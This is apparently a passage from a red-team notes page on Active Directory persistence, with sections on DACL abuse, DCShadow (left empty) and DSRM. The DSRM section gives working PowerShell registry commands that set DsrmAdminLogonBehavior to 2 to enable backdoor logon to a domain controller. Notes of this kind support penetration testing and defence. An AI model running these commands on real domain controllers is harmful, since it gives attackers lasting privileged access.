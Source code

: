 🔎️ [DETECT](https://github.com/jomivz/jomivz.github.io/blob/master/_posts/2000-01-01-pen-ad-discov-win.md#shoot-dacl)

🛟 MITIGATE :
```powershell
# user added to privileged group

# shadow credentials
msDS-KeyCredentialLink
```

🕮 READ MORE at :
- [thehacker.recipes/ad/movement/dacl](https://www.thehacker.recipes/ad/movement/dacl/).
- [thehacker.recipes/ad/persistence/dacl](https://www.thehacker.recipes/ad/persistence/dacl/).
- [ired.team/abusing-active-directory-acls-aces](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces)


## <a name='dc-shadow'></a>dc-shadow

🔑 KEYPOINTS :
- tbd 

▶️ PLAY :
```powershell
```

🔎️ DETECT :
```powershell
```

🛟 MITIGATE :
```powershell
```

🕮 READ MORE at :
- [thehacker.recipes/ad/persistence/dcshadow](https://www.thehacker.recipes/ad/persistence/dcshadow/).
- [ired.team/dcshadow](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)


## <a name='dsrm'></a>dsrm

🔑 KEYPOINTS :
- DSRM stands for 'Directory Services Restore Mode'
- allows remote access to the DC for the local admin accounts
- dump of local admins hash is required + activation of the feature in the **registry** 

▶️ PLAY :
```powershell
# check if the key exists and get the value
Get-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior 

# create key with value "2" if it doesn't exist
New-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2 -PropertyType DWORD 

# change value to "2"
Set-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2  
``` 
